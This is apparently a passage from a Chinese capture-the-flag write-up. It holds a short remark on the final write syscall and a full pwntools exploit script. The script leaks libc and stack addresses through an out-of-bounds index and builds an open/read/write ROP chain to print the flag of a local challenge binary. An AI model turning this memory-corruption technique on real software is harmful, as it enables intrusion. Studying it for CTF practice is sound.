
最后 write(1, read 写入的地址, 输出长度)，rax=1。这里只需修改 rax 和 rdi，rsi 和 rdx 保持不变（与 read 的 rsi、rdx 相同）。最终输出 flag


### exp

```python
#!/usr/bin/env python

from pwn import *


r = process("./artifact")

gdb.attach(r,"b main")
def menu():
    r.recvuntil('?\n')

def cmd(num):
    r.sendline(str(num))

def show(num):
    cmd(1)
    r.sendline(str(num))
    r.recvuntil("Here it is: ")
    ret = r.recvline()[:-1]
    menu()
    return ret

def memo(num, inp):
    cmd(2)
    r.sendline(str(num))
    r.recvuntil('Give me your number:\n')
    r.sendline(str(inp))
    menu()

def end():
    cmd(3)


menu()

# leak libc adress
libc = int(show(203)) - 241 - 0x20300
print ('libc:', hex(libc))


# stack address index: 231
stack = int(show(205))
print ('stack:', hex(stack))

pop_rax = libc + 0x3a998
pop_rdi = libc + 0x1fd7a
pop_rsi = libc + 0x1fcbd
pop_rdx = libc + 0x1b92
pop_rcx = libc + 0x1a97b8
mov_rdi_rax_call_rcx = libc + 0x89ae9
syscall = libc + 0xbc765

# ./flag

memo(0, 0x67616c662f2e)


# open
memo(203, pop_rdi)
memo(204, stack - 231*8)
memo(205, pop_rsi)
memo(206, 0)
memo(207, pop_rdx)
memo(208, 2)
memo(209, pop_rax)
memo(210, 2)
memo(211, syscall)

# read
memo(212, pop_rcx)
memo(213, pop_rax)
memo(214, mov_rdi_rax_call_rcx)
memo(215, pop_rax)
memo(216, 0)
memo(217, pop_rsi)
memo(218, stack - 80*8)
memo(219, pop_rdx)
memo(220, 100)
memo(221, syscall)

# write
memo(222, pop_rax)
memo(223, 1)
memo(224, pop_rdi)
memo(225, 1)
memo(226, syscall)

end()

r.interactive()
```

